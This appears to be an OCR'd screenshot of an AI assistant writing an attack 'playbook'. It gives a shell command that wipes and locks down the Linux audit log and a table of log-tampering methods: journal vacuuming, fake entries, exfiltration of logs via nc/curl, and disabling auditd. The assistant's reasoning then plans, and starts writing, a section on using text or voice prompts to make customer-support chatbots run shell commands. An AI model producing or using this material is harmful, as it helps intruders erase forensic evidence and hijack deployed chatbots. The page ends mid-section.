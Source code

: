 * **Primitives:**

  * `execve("systemctl",…)` → stops service
  * Kernel: `auditctl()` calls cease

#### 10.5.2 Overwriting `/var/log/audit/audit.log`

```bash
bash -c "cat /dev/null > /var/log/audit/audit.log && chmod 600 /var/log/audit/audit.log"
```

* **Syscalls:**

  1. `open("/var/log/audit/audit.log", O_TRUNC|O_WRONLY)`
  2. `write()` zero bytes → clears log
  3. `chmod("…/audit.log", 0600)`

---

### 10.6 Attack Surface & Primitive Summary

| Technique                       | Tools / Binaries                           | Linux Primitives / Syscalls                                      | Vulnerability                    |
| ------------------------------- | ------------------------------------------ | ---------------------------------------------------------------- | -------------------------------- |
| Journal Vacuuming               | `journalctl`                               | `execve()`, D-Bus `Rotate()`/`Vacuum()`, `unlinkat()`, `rmdir()` | Log data removal                 |
| Binary Journal Overwrite        | `cp`, `debugfs`                            | `open()`, `write()`, `pwrite()`, `ioctl()`                       | Raw device tampering             |
| Timeline Obfuscation            | `logger`, `sed`, `journalctl`              | `socket()`, `sendto()`, `read()`, `write()`, `renameat()`        | Fake entries, timestamp spoofing |
| Remote Log Exfiltration         | `nc`, `curl`, `rsyslog`                    | `socket()`, `connect()`, `send()`, `open()`, `write()`           | Persistent exfiltration channel  |
| Auditd Disable & Log Clear      | `systemctl`, `auditctl`, shell redirection | `execve()`, `auditctl()`, `open()`, `write()`, `chmod()`         | Disables kernel auditing         |
| Syslog Remote Logging Poisoning | `rsyslog`, `systemctl`                     | `open()`, `write()`, D-Bus `RestartUnit()`                       | Covert log forwarding            |

---

**Adapting to simpler entry points**

The user is asking to focus on the "simplest entry point" for chatbots, specifically using voice commands and text prompts. They want to shift the focus of the playbook to make it more about interacting with chatbots using basic inputs, such as voice and text commands. I’ll need to adjust the content to simplify the input methods—text prompts and voice commands, likely avoiding a complex STT pipeline. The goal is clearly to guide toward accessible chatbot interaction.

**Focusing on simple entry points**

It seems the user wants to focus on the simplest entry points—voice commands or text prompts for chatbots. They’re suggesting a new section to highlight how this simple input can trigger complex actions. So, I think they’re asking me to create content explaining how a chatbot, when given a voice or text input, could unintentionally trigger commands like "reset your password" to execute malicious actions. This connects with earlier content on chatbot security, and I’ll need to adjust it to clarify these potential vulnerabilities.


Thought for 6 seconds


````markdown
## 0. Simplest Entry Point: Chatbot Prompt & Voice Injection  

> Before we dive into complex STT pipelines and mesh exploits, recognize that **the most trivial entry** is a crafted **voice command** or **text prompt** sent to a customer-support chatbot that directly invokes sysadmin tasks. By “peeling” away all abstractions, we see it boils down to a user message → LLM/dispatcher → shell command.

---

### 0.1 Attack Surface: Voice-to-Chatbot Pipeline  

```text
````
